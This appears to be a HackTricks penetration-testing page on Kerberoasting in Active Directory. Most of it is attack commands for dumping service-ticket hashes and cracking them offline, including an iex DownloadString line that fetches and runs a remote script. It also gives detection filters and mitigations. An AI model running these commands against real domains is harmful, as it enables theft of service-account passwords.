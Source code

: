 # Kerberoast

{{#include ../../banners/hacktricks-training.md}}

## Kerberoast

Kerberoasting focuses on the acquisition of **TGS tickets**, specifically those related to services operating under **user accounts** in **Active Directory (AD)**, excluding **computer accounts**. The encryption of these tickets utilizes keys that originate from **user passwords**, allowing for the possibility of **offline credential cracking**. The use of a user account as a service is indicated by a non-empty **"ServicePrincipalName"** property.

For executing **Kerberoasting**, a domain account capable of requesting **TGS tickets** is essential; however, this process does not demand **special privileges**, making it accessible to anyone with **valid domain credentials**.

### Key Points:

- **Kerberoasting** targets **TGS tickets** for **user-account services** within **AD**.
- Tickets encrypted with keys from **user passwords** can be **cracked offline**.
- A service is identified by a **ServicePrincipalName** that is not null.
- **No special privileges** are needed, just **valid domain credentials**.

### **Attack**

> [!WARNING]
> **Kerberoasting tools** typically request **`RC4 encryption`** when performing the attack and initiating TGS-REQ requests. This is because **RC4 is** [**weaker**](https://www.stigviewer.com/stig/windows_10/2017-04-28/finding/V-63795) and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256.\
> RC4 (type 23) hashes begin with **`$krb5tgs$23$*`** while AES-256(type 18) start with **`$krb5tgs$18$*`**`.`

#### **Linux**

```bash
# Metasploit framework
msf> use auxiliary/gather/get_user_spns
# Impacket
GetUserSPNs.py -request -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted
GetUserSPNs.py -request -dc-ip <DC_IP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
# kerberoast: https://github.com/skelsec/kerberoast
kerberoast ldap spn 'ldap+ntlm-password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -o kerberoastable # 1. Enumerate kerberoastable users
kerberoast spnroast 'kerberos+password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -t kerberoastable_spn_users.txt -o kerberoast.hashes # 2. Dump hashes
```

Multi-features tools including a dump of kerberoastable users:

```bash
# ADenum: https://github.com/SecuProject/ADenum
adenum -d <DOMAIN.FULL> -ip <DC_IP> -u <USERNAME> -p <PASSWORD> -c
```

#### Windows

- **Enumerate Kerberoastable users**

```powershell
# Get Kerberoastable users
setspn.exe -Q */* #This is a built-in binary. Focus on user accounts
Get-NetUser -SPN | select serviceprincipalname #Powerview
.\Rubeus.exe kerberoast /stats
```

- **Technique 1: Ask for TGS and dump it from memory**

```powershell
#Get TGS in memory from a single user
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServicePrincipalName" #Example: MSSQLSvc/mgmt.domain.local

#Get TGSs for ALL kerberoastable accounts (PCs included, not really smart)
setspn.exe -T DOMAIN_NAME.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

#List kerberos tickets in memory
klist

# Extract them from memory
Invoke-Mimikatz -Command '"kerberos::list /export"' #Export tickets to current folder

# Transform kirbi ticket to john
python2.7 kirbi2john.py sqldev.kirbi
# Transform john to hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

- **Technique 2: Automatic tools**

```bash
# Powerview: Get Kerberoast hash of a user
Request-SPNTicket -SPN "<SPN>" -Format Hashcat #Using PowerView Ex: MSSQLSvc/mgmt.domain.local
# Powerview: Get all Kerberoast hashes
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\kerberoast.csv -NoTypeInformation

# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast #Specific user
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #Get of admins

# Invoke-Kerberoast
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

> [!WARNING]
> When a TGS is requested, Windows event `4769 - A Kerberos service ticket was requested` is generated.

### Cracking

```bash
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

### Persistence

If you have **enough permissions** over a user you can **make it kerberoastable**:

```bash
 Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
```

You can find useful **tools** for **kerberoast** attacks here: [https://github.com/nidem/kerberoast](https://github.com/nidem/kerberoast)

If you find this **error** from Linux: **`Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`** it because of your local time, you need to synchronise the host with the DC. There are a few options:

- `ntpdate <IP of DC>` - Deprecated as of Ubuntu 16.04
- `rdate -n <IP of DC>`

### Mitigation

Kerberoasting can be conducted with a high degree of stealthiness if it is exploitable. In order to detect this activity, attention should be paid to **Security Event ID 4769**, which indicates that a Kerberos ticket has been requested. However, due to the high frequency of this event, specific filters must be applied to isolate suspicious activities:

- The service name should not be **krbtgt**, as this is a normal request.
- Service names ending with **$** should be excluded to avoid including machine accounts used for services.
- Requests from machines should be filtered out by excluding account names formatted as **machine@domain**.
- Only successful ticket requests should be considered, identified by a failure code of **'0x0'**.
- **Most importantly**, the ticket encryption type should be **0x17**, which is often used in Kerberoasting attacks.

```bash
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4769} -MaxEvents 1000 | ?{$_.Message.split("`n")[8] -ne 'krbtgt' -and $_.Message.split("`n")[8] -ne '*$' -and $_.Message.split("`n")[3] -notlike '*$@*' -and $_.Message.split("`n")[18] -like '*0x0*' -and $_.Message.split("`n")[17] -like "*0x17*"} | select ExpandProperty message
```

To mitigate the risk of Kerberoasting:

- Ensure that **Service Account Passwords are difficult to guess**, recommending a length of more than **25 characters**.
- Utilize **Managed Service Accounts**, which offer benefits like **automatic password changes** and **delegated Service Principal Name (SPN) Management**, enhancing security against such attacks.

By implementing these measures, organizations can significantly reduce the risk associated with Kerberoasting.

## Kerberoast w/o domain account

In **September 2022**, a new way to exploit a system was brought to light by a researcher named Charlie Clark, shared through his platform [exploit.ph](https://exploit.ph/). This method allows for the acquisition of **Service Tickets (ST)** via a **KRB_AS_REQ** request, which remarkably does not necessitate control over any Active Directory account. Essentially, if a principal is set up in such a way that it doesn't require pre-authentication—a scenario similar to what's known in the cybersecurity realm as an **AS-REP Roasting attack**—this characteristic can be leveraged to manipulate the request process. Specifically, by altering the **sname** attribute within the request's body, the system is deceived into issuing a **ST** rather than the standard encrypted Ticket Granting Ticket (TGT).

The technique is fully explained in this article: [Semperis blog post](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/).

> [!WARNING]
> You must provide a list of users because we don't have a valid account to query the LDAP using this technique.

#### Linux

- [impacket/GetUserSPNs.py from PR #1413](https://github.com/fortra/impacket/pull/1413):

```bash
GetUserSPNs.py -no-preauth "NO_PREAUTH_USER" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
```

#### Windows

- [GhostPack/Rubeus from PR #139](https://github.com/GhostPack/Rubeus/pull/139):

```bash
Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"domain.local" /dc:"dc.domain.local" /nopreauth:"NO_PREAUTH_USER" /spn:"TARGET_SERVICE"
```

## References

- [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)
- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled)

{{#include ../../banners/hacktricks-training.md}}


